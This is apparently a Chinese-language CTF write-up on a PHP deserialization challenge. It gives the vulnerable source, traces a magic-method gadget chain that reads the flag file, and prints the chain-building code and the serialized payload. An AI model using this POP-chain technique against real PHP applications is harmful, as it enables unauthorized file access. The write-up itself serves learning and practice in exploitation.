 



![img](https://peekaboo.show/content/images/2022/11/69bce6f54be45fc4d219573e1e0a54d5.png)



# Week2 UnserializeOne 200

#### 0、知识点与工具

>   php 魔术方法‌
>   ‌     __destruct()、__isset()、__construct()、__toString、                ‌
>   ‌     __invoke()、__call()、__clone()

>   php 反序列化

>   工具：burpsuite、postman

#### 1、分析一下代码

‌

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
#Something useful for you : https://zhuanlan.zhihu.com/p/377676274


class Start{
    public $name;
    protected $func;
	
    // 函数销毁时执行
    // Start类对象销毁时执行
    public function __destruct()
    {
        echo "Welcome to NewStarCTF, ".$this->name;
    }

	// 当对不可访问属性调用isset()时调用
    // 访问Start类对象中不存在的属性时调用
    public function __isset($var)
    {
        ($this->func)();
    }
}

class Sec{
    private $obj;
    private $var;

	// 类被当成字符串时调用
    // Sec类被当成字符串ecco时调用
    public function __toString()
    {
        $this->obj->check($this->var);
        return "CTFers";
    }

	// 调用函数的方式调用一个对象时的回应方法
    // 调用Sec类对象中的一个方法时调用
    public function __invoke()
    {
        echo file_get_contents('/flag');
    }
}

class Easy{
    public $cla;

	// 在对象中调用一个不可访问方法时调用
    // 调用Easy类对象中的一个不存在的方法时调用
    public function __call($fun, $var)
    {
        $this->cla = clone $var[0];
    }
}

class eeee{
    public $obj;

	// 当对象复制完成时调用
    // 当eeee类对象被复制时调用
    public function __clone()
    {
        if(isset($this->obj->cmd)){
            echo "success";
        }
    }
}

if(isset($_POST['pop'])){
    unserialize($_POST['pop']);
}
```



‌

>   根据上面的分析，可以倒推，获取flag的invoke方法是在Sec类中，那么要触发invoke方法需要调用Sec类中的方法，

>   洞观全局只有Start类中有调用对象中的方法代码，

>   所以Start类中的属性func的值应该存储Sec类对象

>   然后想要执行Start类中isset方法，那么需要eeee类中的属性obj存储Start类对象

>   然后想要执行eeee类中clone方法，那么需要访问Easy类中一个不存在的方法

>   然后想要执行call方法，那么需要执行Sec类中的toString方法

>   然后想要执行toString方法，那么需要Start类对象被销毁

>   最终结果为：Start类对象中 $name= Sec类对象，$func = Sec类对象‌
>   ‌      Sec类对象中的 $obj = Easy类对象，$var = eeee类对象‌
>   ‌      eeee类对象中的$obj = Start类对象‌
>   ‌      Easy类对象中的$cla = null

>   把下面的代码加在题目中的最后一行，用自己的php环境跑一下就阔以得到下序列化的字符串，不过需要把最后那个if判断参数的代码干掉

‌

```php
$start = new Start();
$e = new eeee();
$easy = new Easy();

// 存储Start类对象就阔以触发其中的__isset魔术方法
$e ->obj = $start;

// 这里使用构成方法赋值，虽然原题没有但可以自己加
//$sec = new Sec($easy,$start);

// 没有构成方法方式赋值
$sec = new Sec();
// 存储Easy类对象就阔以触发其中的__call魔术方法
$sec ->obj = $easy;
// 存储eeee类对象就阔以触发其中的__clone魔术方法
$sec ->var = $e;

// 存储Sec类对象就阔以触发其中的__toString魔术方法
$start->name = $sec;
// 存储Sec类对象就阔以触发其中的____invoke魔术方法,获取flag
$start->func = $sec;

echo serialize($start);
```



‌

>   序列化后的字符串为

‌

```
O:5:"Start":2:{s:4:"name";O:3:"Sec":2:{s:3:"obj";O:4:"Easy":1:{s:3:"cla";N;}s:3:"var";O:4:"eeee":1:{s:3:"obj";r:1;}}s:4:"func";r:2;}
```



‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/288eb89fd17c95cb638cbdf7b5eb76c.jpg)



‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/f4c037fd9ef9d16049e29e28eb6340f.jpg)



‌

>   看了有些人的wp，发现序列化的字符串需要url编码，但使用burp倒是并不需要url编码，编不编码并不影响结果，在这一题中

>   使用postman进行测试，发现url编码后的字符串还不能获得flag，未编码的字符串倒是可以获得flag

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117123944.png)



‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117124029.png)



‌